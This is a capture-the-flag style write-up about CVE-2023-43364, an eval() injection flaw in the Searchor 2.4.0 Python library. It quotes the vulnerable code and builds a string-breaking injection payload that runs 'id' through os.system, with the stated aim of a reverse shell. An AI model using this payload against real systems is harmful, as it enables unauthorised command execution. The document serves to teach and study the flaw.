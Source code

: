 From the github description: Searchor is an all-in-one PyPi Python Library that simplifies web scraping, obtaining information on an topic, and generating search query URLs. Searchor is an a efficient tool for Python developers, with many web development needs in one, with support of over 100+ Engines and custom engines allowed, making it easy for developers to use for their web programming needs in Python without relying on many third-party dependencies. Furthermore, Searchor has a wide range of support, including command line interface and pip.

Searching on Google for vulnerabilities related to Searchor 2.4.0, we find the very interesting [CVE-2023-43364](https://nvd.nist.gov/vuln/detail/cve-2023-43364), which tells us that Searchor < 2.4.2 use an eval statement in its code and the query we feed directly goes into the eval statement.

Looking at the [PoC GitHub](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection) repository, we see that the vulnerable code is as follows:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
```

Already alarms are ringing off. `eval()` is a dangerous function that executes the string passed to it as Python code. This means that if we can control the `query` parameter, we can execute arbitrary commands on the server. Which we can.

## Gaining Foothold

To exploit this vulnerability, craft a very specific payload string that will
- Close the string
- Do what we want it to do on the system (i.e. a reverse shell)
- Concatenate the first string, the system output and then the third empty string to close the eval statement.

The payload we will use, for testing first, is as follows:

```plaintext
' + __import__('os').system('id') + '
```

This gives us:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('' + __import__('os').system('id') + '', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
```
